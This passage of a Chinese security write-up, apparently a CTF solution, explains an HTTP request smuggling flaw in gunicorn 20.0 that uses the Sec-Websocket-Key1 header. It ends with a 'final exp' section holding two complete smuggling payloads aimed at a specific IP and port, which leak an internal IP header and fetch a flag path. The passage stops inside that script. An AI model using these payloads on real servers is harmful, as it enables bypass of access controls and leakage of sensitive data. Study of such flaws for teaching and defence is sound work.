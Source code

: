![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-30a145534a115e3cf79dcd31782e8b4db4027a1f.png)

那么我的思路就是多次发送请求，并且设置前一个请求的CL为超过实际请求体的较大数值；由于后端服务器设置Keep-Alive，所以它会误认为请求没有发送完毕，会继续等待；而这时候我们再给前端服务器发送一个请求，前端服务器就会把带有来源IP头部的http包发送给后端服务器，后端服务器接收足够上一包内CL的时候就会把这个泄露敏感凭证的包一并返回给客户端，从而造成了敏感信息泄露。

其实思路与上面讲到的应用实例2一样，**只不过gunicorn20.0的走私漏洞是由于默认Sec-Websocket-Key的配置导致后端服务器会以xxxxxxxx为标识位，这就导致xxxxxxxx后面的部分会滞留在缓存区，可以认为是一种变种的CL TE走私。**

我们可以通过burp直接构造请求，**但是由于Content-Length需要我们自定义，比如第一个Content-Length仅仅是计算到第一个手动添加的POST请求，所以构造的时候要额外小心。**

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-591fdb728dfbda6136c36ed51b0bd14f1845ccc6.png)

当然我们直接写脚本拿socket发更直观。

### 最终exp

```php
import socket

secret_payload=b'''POST / HTTP/1.1\r
Host: 59.110.159.206:7020\r
Content-Length: 149\r
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded\r
Sec-Websocket-Key1:x\r
\r
xxxxxxxxPOST / HTTP/1.1\r
Host:127.0.0.1\r
secr3t_ip: 127.0.0.1\r
Content-Length: 150\r
Content-Type: application/x-www-form-urlencoded\r
\r
search=abc\r
\r
POST / HTTP/1.1\r
Content-Length: 14\r
Content-Type: application/x-www-form-urlencoded\r
\r
search=111\r
\r
'''

final_payload=b'''POST / HTTP/1.1\r
Host: 59.110.159.206:7020\r
Content-Length: 152\r
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36\r
Content-Type: application/x-www-form-urlencoded\r
Sec-Websocket-Key1:x\r
\r
xxxxxxxxGET /fl4g HTTP/1.1\r
Host:127.0.0.1\r
secr3t_ip: 127.0.0.1\r
Content-Length: 150\r
Content-Type: application/x-www-form-urlencoded\r
\r
search=abc\r
\r
POST / HTTP/1.1\r
Content-Length: 14\r
Content-Type: application/x-www-form-urlencoded\r
\r
search=111\r
```